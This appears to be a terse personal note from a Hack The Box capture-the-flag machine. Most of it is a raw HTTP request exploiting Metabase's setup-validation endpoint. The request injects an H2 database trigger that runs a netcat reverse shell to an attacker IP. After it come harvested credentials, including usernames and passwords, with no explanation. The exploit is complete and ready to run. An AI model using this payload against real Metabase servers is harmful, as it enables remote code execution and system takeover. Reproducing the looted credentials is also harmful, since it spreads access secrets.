 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

POST /api/setup/validate HTTP/1.1

Host: data.analytical.htb

Content-Type: application/json

Content-Length: 769



{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",

    "details":

    {

        "is_on_demand": false,

        "is_full_sync": false,

        "is_sample": false,

        "cache_ttl": null,

        "refingerprint": false,

        "auto_run_queries": true,

        "schedules":

        {},

        "details":

        {

            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {nc,10.10.14.12,1234,-e,/bin/sh}')\n$$--=x",

            "advanced-options": false,

            "ssl": true

        },

        "name": "an-sec-research-team",

        "engine": "h2"

    }

}












root:f80006ccdc7

db user=GUEST
password=GUEST


metalytics
An4lytics_ds20223#


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
